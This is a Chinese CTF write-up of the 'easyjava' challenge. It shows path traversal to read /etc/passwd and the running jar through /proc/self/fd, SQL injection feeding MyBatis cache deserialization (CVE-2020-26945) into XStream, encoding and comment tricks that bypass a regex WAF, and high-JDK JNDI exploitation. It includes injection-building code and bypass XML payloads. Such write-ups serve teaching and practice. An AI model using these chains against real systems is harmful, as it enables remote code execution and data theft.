









## 0x00 前言

easyjava的设计思路主要来源于现实环境中遇到的一些问题，以及最近刚出的mybatis二级缓存反序列化的安全问题的一种设想。题目的设计目的主要考察选手对于实操性的漏洞的利用以及源码审计能力。

<!-- more -->

具体的考点如下：

1. 任意文件下载，/proc/self/fd的利用
2. mybatis缓存反序列化漏洞，[CVE-2020-26945](https://nvd.nist.gov/vuln/detail/CVE-2020-26945)
3. xstream反序列化利用，简单正则waf绕过，类比fastjson unicode编码绕过
4. 高版本java版本下的jndi利用

## 0x01 预期题解

题目本身设计的功能点比较少，主要是jpg图片签名，下载和验签功能

### #1 源码获取

这里首先关注下载的接口



在返回包里存在Check字段，于get请求中的sign字段是一样的内容，尝试修改filename为`../../../../../../etc/passwd`





check字段返回了不一样的内容，这里判断可能sign值用于校验，通过才返回结果，那么修改sign字段，即可获取到当前请求的内容。接下来，由于是linux系统，我们可以通过暴力fd值来获取到当前运行的jar包内容，如`/proc/self/fd/4`来获取jar包

### #2 mybatis SQL注入

拿到jar反编译后先看pom，其中比较容易关注的主要是两个jar包，一个是mybatis的springboot包，另一个是xstream的包



如果关注cve动态的话，可以知道最近刚出的漏洞[CVE-2020-26945](https://nvd.nist.gov/vuln/detail/CVE-2020-26945)，虽然mybatis的版本已经进行了升级，但spring的mybatis包中的mybatis依赖并没有升级，仍然是3.5.5版本，再确定一下，是否启用了cache


从mapper对应的xml配置里可以看到开启了cache配置，并且`findByHashAndSecret`接口存在注入。

到这里就简单了，我们只要找一下，调用点确认是否可控，即可确认是否存在注入

`nese.game.controller.CheckController`存在链路，从文件中获取内容，并进行数据库查询，所以这边我们能达到一个注入的效果



### #3 mybatis二级缓存反序列化漏洞

接下来，继续进行审计，关注一下另一个点xstream包的安全问题。在`nese.game.entity.Picture`对象上，调用了xstream的fromXML函数，并且在`readObject`函数处对字符串类型的xml进行还原



到这里就比较清晰了，我们需要利用前面发现的SQL注入点，进行注入构造任意的xml数据

并利用mybatis的默认二级缓存使用serialization的原理（如下图官方文档所示），来触发xstream反序列化漏洞



接下来，就根据题目的签名实现，来注入任意数据，以如下代码为例，生成存在注入语句的jpg文件

```
try{
    String payload = "evil xml";
    File file = new File("xxxx.jpg");
    File dest = new File("xxxx.jpg");
    InputStream inputStream = new FileInputStream(file);
    byte[] bytes = new byte[(int)file.length()];
    inputStream.read(bytes);
    InputStream destInputStream = new FileInputStream(dest);
    String secret="' union select 13,'wh1t3p1g','wh1t3p1g','"+payload+"','aed2bebb781ae32d94c5e67185e35149";
    String hash = "aed2bebb781ae32d94c5e67185e35149";
    ImageUtil.transferTo(inputStream, bytes, null, dest, secret, hash);
}catch (Exception e){
    e.printStackTrace();
}
```

提交后可以看到具体的效果，重复提交两次，即可触发xml的反序列化



### #4 XStream正则waf绕过

从题目上来看，XStream的实现需要绕过两个点：

1. PureJavaReflectionProvider

   PureJavaReflectionProvider不支持不存在无参构造函数的类的还原，以及该类如果是可序列化的，那么它的readObject不能有类属性上的还原。这是因为PureJavaReflectionProvider对于反序列化的操作，并非是一个递归的过程，有空再写这个分析：）

2. 正则waf

   题目并没有遵循XStream官方的类禁用方法，而是采用正则的方式先对待反序列化的xml字符串进行检测，检测通过后再进行反序列化。

关于第一个点，比较容易解决，参考marshalsec对于spring jndi利用链的实现，该链符合我说的要求

而对于第二个点，这里没有用官方的方法，提示了我们需要对字符串上做些操作来绕过正则waf。我们参考fastjson的`@type`的unicode编码绕过方式，再看看是否对于XStream，也同样存在这种问题？

答案是肯定的，介绍一下XStream的编码绕过：

1. 针对标签黑名单的绕过

   以spring jndi利用链为案例

   ```xml
   <org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
   </org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
   ```

   当前黑名单为`org[.]springframework`，此时的绕过方法可以为

   ```xml
   <org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
   </org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
   ```

   这里的原理在于xstream会对符合格式的16进制做转换

   `com.thoughtworks.xstream.io.xml.AbstractXmlReader#unescapeXmlName`

   `com.thoughtworks.xstream.io.xml.XmlFriendlyNameCoder#decodeName`

   ```java
   for (; i < length; i++ ) {
     char c = name.charAt(i);
     if (c == dollarReplacementFirstChar && name.startsWith(dollarReplacement, i)) {
       i += dollarReplacement.length() - 1;
       result.append('$');
     } else if (c == hexPrefixFirstChar && name.startsWith(hexPrefix, i)) {
       // 处理hex格式的标签内容，其正确格式为_.xxxx
       i += hexPrefix.length();
       c = (char)Integer.parseInt(name.substring(i, i + 4), 16);
       i += 3;
       result.append(c);
     } else if (c == escapeReplacementFirstChar
                && name.startsWith(escapeCharReplacement, i)) {
       i += escapeCharReplacement.length() - 1;
       result.append('_');
     } else {
       result.append(c);
     }
   }
   ```

   从dollarReplacement，hexPrefix，escapeCharReplacement三者来看，最终不影响我们绕过的为16进制的处理`_.xxxx`转换成实际的字符。

2. 针对标签属性内容的绕过

   案例

   ```xml
   <org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="custom">
   </org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
   ```

   此时的黑名单为`custom`，那么绕过方法可以为

   ```xml
   <org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="cust&#111;m">
   </org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
   ```

   原理为读取属性内容时，会做符合要求的转化

   `com.sun.org.apache.xerces.internal.impl.XMLScanner scanAttributeValue`

   该函数内容比较多，不贴出来了，从883行到942行均在处理html编码格式，并将其转化为实际的字符

   所以这里`&#111;`将转化为`o`

3. 针对标签内容的绕过

   案例

   ```xml
   <test>
   ldap://xxxxx
   </test>
   ```

   此时的黑名单为`ldap://`，可以用如下的几种方法绕过

   **a. html编码**

   这部分在提取数据时，同样对html编码的内容做了转化

   ```xml
   <test>
   &#108;dap://xxxxx
   </test>
   ```

   这部分跟上面`标签属性内容的绕过`的一样，不再叙述

   **b. 注释的方法**

   在处理实际的标签内容时，遇到注视内容将被忽略掉

   ```xml
   <test>
   ld<!-- test -->ap://xxxxx
   </test>
   ```

   `com.thoughtworks.xstream.converters.reflection.AbstractReflectionConverter#unmarshallField`

   `com.thoughtworks.xstream.io.xml.AbstractPullReader#getValue`

   ```java
   public String getValue() {

     // ...

     Event event = readEvent();
     while (true) {
       if (event.type == TEXT) { // 处理字符
         String text = event.value;
         if (text != null && text.length() > 0) {
           if (last == null) {
             last = text;
           } else {
             if (buffer == null) {
               buffer = new StringBuffer(last);
             }
             buffer.append(text);
           }
         }
       } else if (event.type != COMMENT) {// 非字符 且 不是注释时 跳出
         break;
       }
       event = readEvent(); // 继续
     }
     reset();
     if (buffer != null) {
       return buffer.toString();
     } else {
       return (last == null) ? "" : last;
     }
   }
   ```

   从前面的代码中来看，这里主要在对字符进行拼接，并且遇到注释时将跳过，所以如果在内容中添上注释也能达到绕过的效果

经过上面XStream类型解析分析，我们可以构造出绕过正则waf的payload来

### #5 高版本JNDI注入的利用

在生成具体的exp后，可以对外发起JNDI连接，到这一步，我们需要去判断其为高版本jdk还是低版本的jdk。如果是低版本的jdk，我们可以直接利用codebase加载任意的class来达到命令执行的效果，而高版本的jdk只能依赖本地ObjectFactory或本地利用链来进行攻击，参考[KINGX的文章](https://paper.seebug.org/942/)。

而本题考查的为高版本jdk环境下的利用，那么就有两种选择，一为本地利用链触发命令来执行，二为本地ObjectFactory达成代码执行。

从题目的依赖来看，我们并不能找到一个合适的本地利用链来达成利用，那么考察的就是第二个方法的利用了。因为题目用的是spring boot embedded tomcat，所以我们能直接利用KINGX师傅文章中提到的方法，具体的利用过程不提了，可以用我的ysomap来达成命令执行的效果



## 0x02 exp

[exp.java]()